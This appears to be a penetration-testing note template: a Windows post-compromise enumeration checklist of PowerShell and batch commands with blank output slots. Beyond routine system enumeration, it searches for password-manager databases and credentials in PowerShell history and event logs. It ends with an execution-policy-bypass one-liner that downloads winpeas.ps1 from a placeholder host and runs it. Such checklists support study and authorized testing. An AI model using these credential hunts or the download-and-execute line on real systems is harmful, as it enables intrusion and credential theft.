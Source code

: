 # System Information
## Username and Hostname
```powershell
whoami
```
```
<insert hostname\username here>
```

## Group memberships of the current user
```powershell
whoami /groups
```
```
<insert output here>
```

## Existing users and groups
### Enumerating Users
```batch
net user $USER
```
```
<insert output here>
```
```powershell
Get-LocalUser
```
```
<insert output here>
```
### Enumerating Groups
```batch
net localgroup
```
```
<insert output here>
```
```powershell
Get-LocalGroup
```
```
<insert output here>
```
```powershell
Get-LocalGroupMember $GROUP
```
```
<insert output here>
```

## Operating system, version and architecture
### System Information
```batch
systeminfo
```
```
<insert output here>
```
### Network Information
```batch
ipconfig /all
```
```
<insert output here>
```
```batch
route print
```
```
<insert output here>
```
```batch
netstat -ano
```
```
<insert output here>
```
### Installed Applications and Running Services
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
```
<insert output here>
```
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
```
<insert output here>
```
```batch
dir "C:\Program Files"
```
```
<insert output here>
```
```batch
dir "C:\Program Files (x86)"
```
```
<insert output here>
```
```batch
dir $env:userprofile\Downloads
```
```
<insert output here>
```
```powershell
Get-Process
```
```
<insert output here>
```
### Enumerate filesystem for sensitive details
Enumerate for password manager databases (i.e. .kbdx):
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
```
<insert output here>
```
Enumerate application filesystem for interesting files (i.e. XAMPP):
```powershell
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
```
<insert output here>
```
Enumerate home directory for interesting files:
```powershell
Get-ChildItem -Path $env:userprofile -Include *.txt,*.pdf,*.xls,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
Also check other paths such as C:\, C:\Users.
```
<insert output here>
```
# Powershell Logs
```powershell
Get-History
```
```
<insert output here>
```
```powershell
(Get-PSReadlineOption).HistorySavePath
```
```
File Location: <insert output here>

<insert file contents here>
```
## View Script Block Logging
1. Open Event Viewer.
2. Windows Logs > Applications and Services Logs > Microsoft > Windows > PowerShell > Operational
3. On the right hand pane, select the following:
![image](https://github.com/user-attachments/assets/8d95086d-93d9-4e9e-9142-ff8b1c7be51d)
4. Add 4104 as the Event ID to filter:
![image](https://github.com/user-attachments/assets/dabce7a7-d406-47c3-9c02-2c57c0e481ad)
5. Look for interesting commands or plaintext creds... For example:
![image](https://github.com/user-attachments/assets/73336dbe-c73d-4831-a160-d808aab7db65)
 
# No GUI?
If a compromised user isn't part of "Remote Desktop Users" or "Remote Management Users", this means RDP access can't be gained as that user.

Instead, use runas on an account with GUI access to run a cmd or powershell:
```powershell
runas /user:$USER cmd
```
# Winpeas
```powershell
powershell -exec bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://$IP_ADDRESS/winpeas.ps1'))"
```
```
<insert winpeas output here>
```
